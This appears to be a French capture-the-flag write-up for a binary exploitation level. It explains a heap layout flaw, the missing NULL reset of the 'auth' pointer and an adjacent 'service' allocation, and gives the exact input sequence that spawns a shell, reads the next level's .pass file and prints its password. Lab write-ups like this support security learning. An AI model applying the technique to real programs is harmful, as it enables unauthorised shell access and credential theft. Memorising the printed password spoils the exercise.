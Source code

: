 # level8

Après avoir compris ce que fait le binaire en écrivant le `source.c`, on se rend compte que l'algo est `CLI` !

Durant `login`, il va regarder s'il y a un char à `auth + 0x20` \
Si oui il donne un shell, sinon rien d'intéressant. \
Or à l'`auth` on ne peut qu'allouer 4 bytes...

On voit également que lors du `reset`, le pointeur de `auth` n'est pas remis à `NULL`

On remarque aussi que lors de `service`, l'espace alloué est juste à côté de `auth`, on peut juste allouer un grand `service` après un `auth` et on pourra directement `login`

Tuto:
```
./level8
(nil), (nil)
auth AA
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
# c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
